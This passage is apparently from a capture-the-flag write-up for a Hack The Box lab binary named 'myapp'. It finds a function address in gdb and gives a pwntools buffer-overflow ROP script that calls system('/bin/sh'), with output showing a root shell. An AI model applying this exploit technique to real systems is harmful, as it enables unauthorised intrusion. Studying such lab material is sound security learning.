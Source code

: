 Finding the address for test():

```bash
gdb-peda$ info functions
All defined functions:

Non-debugging symbols:
0x0000000000401000  _init
0x0000000000401030  puts@plt
0x0000000000401040  system@plt
0x0000000000401050  printf@plt
0x0000000000401060  gets@plt
0x0000000000401070  _start
0x00000000004010a0  _dl_relocate_static_pie
0x00000000004010b0  deregister_tm_clones
0x00000000004010e0  register_tm_clones
0x0000000000401120  __do_global_dtors_aux
0x0000000000401150  frame_dummy
0x0000000000401152  test
0x000000000040115f  main
0x00000000004011b0  __libc_csu_init
0x0000000000401210  __libc_csu_fini
0x0000000000401214  _fini
```

We get `0x401152` for test()

```bash
#!/usr/bin/python3
from pwn import *

p = gdb.debug('./myapp','''
set follow-fork-mode parent
''')

junk =("A"* 112).encode()
shell = "/bin/sh\x00".encode()
pop_r13 = p64(0x401206)
system = p64(0x401040)
null = p64(0x0)
test = p64(0x401152)

#p.recvuntil('What do you want me to echo back?')
p.sendline(junk + shell + pop_r13 + system + null + null + test)
p.interactive()
```

Running the script, we get a shell:

```bash
root@TheCaretaker:~/HTB/Safe# python3 scripts/temp.py
[+] Starting local process '/usr/bin/gdbserver': pid 217925
[*] running in new terminal: /usr/bin/gdb -q  "./myapp" -x /tmp/pwnoux9jrgh.gdb
[*] Switching to interactive mode
Detaching from process 217962
 16:23:01 up 1 day, 20:56,  8 users,  load average: 0.23, 0.22, 0.24

What do you want me to echo back? AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/bin/sh
Detaching from process 217964
$ whoami
root
$
```
